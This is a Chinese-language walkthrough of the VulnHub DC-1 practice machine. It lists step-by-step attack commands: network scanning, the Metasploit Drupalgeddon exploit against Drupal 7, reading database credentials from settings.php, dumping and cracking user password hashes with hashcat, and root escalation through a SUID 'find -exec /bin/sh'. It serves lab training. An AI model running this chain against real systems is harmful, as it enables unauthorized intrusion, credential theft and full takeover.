


# DC 1

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/dc-1,292/

## 知识点

## 信息收集

1.IP探测
```bash
ifconfig all # 这里是因为本地局域网
nmap -sP 192.168.2.0/24 # IP探测 扫描本地C段的网络端口信息
```


2.扫描目标全端口

```bash
nmap -T5 -A -v -p- 192.168.2.22
nmap 192.168.2.22
```


可以扫出 22 80 111三个端口

## 漏洞利用

访问80端口发现服务为drupal 7

```
msfconsole
search drupal
use exploit/multi/http/drupal_drupageddon
set RHOSTS 192.168.2.22
run
```


利用成功弹回meterpreter会话,然后cmd shell下
```
shell
```


getshell后第一件事是使用python命令获取一个正常的tty,否则有些命令可能无法执行。

```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

### 0x01-flag1

目前权限是www-data,读取flag1.txt,估摸着是权限不够，只读取到一个flag1.txt,读取flag1.txt
```bash
find / -name flag*
cat flag1.txt
```


提示CMS的配置文件有东西

### 0x02-flag2

google搜索drupal数据库配置文件(配置文件不存在，所以搜的数据库文件)

```bash
find /var -name settings.php
cat /var/www/sites/default/settings.php
```


可以看到flag2的内容以及mysql的数据库账号密码，尝试登录数据库

### 0x03-flag3

```bash
mysql -udbuser -pR0ck3t
use drupaldb
show tables
```


尝试读取users表

```
select * from users;
select name,pass from users;
```


接着用hashcat爆破跑密码的hash的明文，需要先知道drupal的hash id

```bash
hashcat --help | grep "Drupal"  # 获得7900
```

hash保存源文件
```bash
echo "\$S\$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR" > source.txt
echo "\$S\$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg" >> source.txt
```

接着爆破需要密码表，这里我用的我团队的字典项目
- https://github.com/ffffffff0x/AboutSecurity/tree/master/Dic/Auth/password
```
hashcat -m 7900 -a 0 source.txt pass01.txt

-m 指定要破解的 hash 类型，如果不指定类型，则默认是 MD5
-a 指定要使用的破解模式，其值参考后面对参数。“-a 0”字典攻击，“-a 1” 组合攻击；“-a 3”掩码攻击。
source.txt 你要爆破的 hash 列表
pass01.txt 你的密码表
```

kali虚拟机跑不起来，问了朋友说是虚拟机显卡问题，在我自己Windows跑了下没问题。


可以看到分别跑出密码为:53cr3t和Mypassword,第一个拿去登录网站admin/53cr3t,在dashborad发现flag3



翻译就是：特殊权限将有助于查找密码 - 但您需要 -exec 该命令才能确定如何获取隐藏中的内容

### 0x04-flag4

```bash
cat /etc/passwd
```


发现flag4用户，读取
```bash
cat /home/flag4/flag4.txt
```

```
Can you use this same method to find or access the flag in root?
Probably. But perhaps it's not that easy.  Or maybe it is?
```
提示需要提权

### 0x05-flag5

考点：find的suid提权

```bash
find / -perm -u=s -type f 2>/dev/null

两种方法：
find . -exec /bin/sh \;  # 直接提权
find flag4.txt -exec "/bin/sh" \; 
ls /root
cat /root/thefinalflag.txt
```




提权成功，得到flag5
## 参考链接
- https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC1-WalkThrough.md
- https://peiqiwiki.yuque.com/staff-ws572w/ku05f9/kh0cna